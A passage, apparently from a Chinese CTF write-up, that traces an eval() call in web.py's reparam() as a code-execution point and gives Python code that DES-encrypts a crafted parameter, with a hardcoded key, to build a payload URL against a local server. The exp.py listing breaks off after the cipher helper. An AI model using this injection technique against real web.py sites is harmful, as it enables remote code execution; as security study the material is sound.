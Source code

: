 ```py
    return records
```
在函数get_posts()函数中使用了db.select(),追溯到底层有reparam()函数:
```py
def reparam(string_, dictionary): 
    """
    Takes a string and a dictionary and interpolates the string
    using values from the dictionary. Returns an `SQLQuery` for the result.

        >>> reparam("s = $s", dict(s=True))
        <sql: "s = 't'">
        >>> reparam("s IN $s", dict(s=[1, 2]))
        <sql: 's IN (1, 2)'>
    """
    dictionary = dictionary.copy() # eval mucks with it
    # disable builtins to avoid risk for remote code exection.
    dictionary['__builtins__'] = object()
    vals = []
    result = []
    for live, chunk in _interpolate(string_):
        if live:
            v = eval(chunk, dictionary)
            result.append(sqlquote(v))
        else: 
            result.append(chunk)
    return SQLQuery.join(result, '')
```
其中的v = eval(chunk, dictionary)便是利用点。
debug一下，生成payload:
```py
from Crypto.Cipher import DES
import requests
def get_cipher(plain):
    key='ldgonaro'
    DES_fun=DES.new(key,DES.MODE_ECB)
    length=DES.block_size-len(plain)%DES.block_size
    plain+=chr(length)*length
    cipher=DES_fun.encrypt(plain).encode('hex')
    return cipher

url='http://127.0.0.1:8000/?s='+get_cipher("m=p&l=${test}")
print url

http://127.0.0.1:8000/?s=3a3712cba592b47c5ca50b1fa63d1e82
```

在reparam()处下断点，debug:
![屏幕快照 2018-10-30 下午2.42.21](http://p0sa0ryfm.bkt.clouddn.com/2018-10-30-屏幕快照 2018-10-30 下午2.42.21.png)
可以看到传给eval()的参数,但eval()可以执行传入的命令，但并不会回显，可以选择将命令执行的结果放入tmp目录下，再下载下来。

exp.py:
```py
from Crypto.Cipher import DES
import requests
def get_cipher(plain):
    key='ldgonaro'
    DES_fun=DES.new(key,DES.MODE_ECB)
    length=DES.block_size-len(plain)%DES.block_size
    plain+=chr(length)*length
    cipher=DES_fun.encrypt(plain).encode('hex')
    return cipher

```